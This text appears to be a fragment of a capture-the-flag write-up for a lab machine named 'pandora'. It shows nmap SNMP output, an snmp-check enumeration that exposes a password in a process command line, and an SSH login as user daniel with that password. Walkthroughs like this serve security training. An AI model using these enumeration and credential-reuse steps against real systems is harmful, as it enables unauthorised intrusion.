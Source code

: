 ```
|   snmpEngineBoots: 31
|_  snmpEngineTime: 5m57s
| snmp-sysdescr: Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
|_  System uptime: 5m57.19s (35719 timeticks)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.18 seconds
```

Running `snmp-check` against it and looking at the running process on the machine we see that the cmdline of a process leaks credentials.

```
$ snmp-check 10.129.174.44 -v 2c -r 10
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.174.44:161 using SNMPv2c and community 'public'
...[snip]...
[*] Processes:

  Id                    Status                Name                  Path                  Parameters
  1                     runnable              systemd               /sbin/init            maybe-ubiquity
...[snip]...
  969                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23
...[snip]...
```

These credentials work to log into the host as the user daniel.

```
ssh daniel@10.129.174.44
The authenticity of host '10.129.174.44 (10.129.174.44)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:2: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.174.44' (ED25519) to the list of known hosts.
daniel@10.129.174.44's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat  8 Jan 22:57:26 UTC 2022

  System load:  0.0               Processes:             228
  Usage of /:   62.8% of 4.87GB   Users logged in:       0
  Memory usage: 7%                IPv4 address for eth0: 10.129.174.44
  Swap usage:   0%

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```